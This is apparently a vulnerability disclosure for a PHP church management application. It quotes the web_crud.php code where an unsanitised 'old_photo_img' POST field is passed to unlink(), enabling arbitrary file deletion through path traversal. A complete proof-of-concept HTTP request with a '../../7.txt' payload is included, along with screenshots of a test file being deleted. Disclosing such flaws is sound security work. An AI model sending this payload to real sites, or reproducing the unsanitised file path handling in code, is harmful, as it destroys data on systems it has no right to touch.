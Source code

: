 ### Vulnerability file address

In line 251 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo_img']);`,` $_POST['old_photo_img']` parameters have not been restricted, which causes any file to be deleted

```php
 if (isset($_POST['update5'])) {
        function generateUniqueFilename($file)
        {
            $file_extension = pathinfo($file['name'], PATHINFO_EXTENSION);
            $unique_filename = uniqid() . '.' . $file_extension;
            return $unique_filename;
        }

        if ($_FILES['photo']['tmp_name'] != '') {
            $img = generateUniqueFilename($_FILES['photo']);
            $filepath = "../../assets/images/" . $img;

            if (move_uploaded_file($_FILES["photo"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 371

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update5"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo_img"

../../7.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `7.txt` file in the `church/` directory

![image-20250504211600479](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042116522.png)

Then we execute the above poc to attack

![image-20250504211658112](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042116141.png)

Files are deleted after the attack is successful

![image-20250504211648697](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042116738.png)
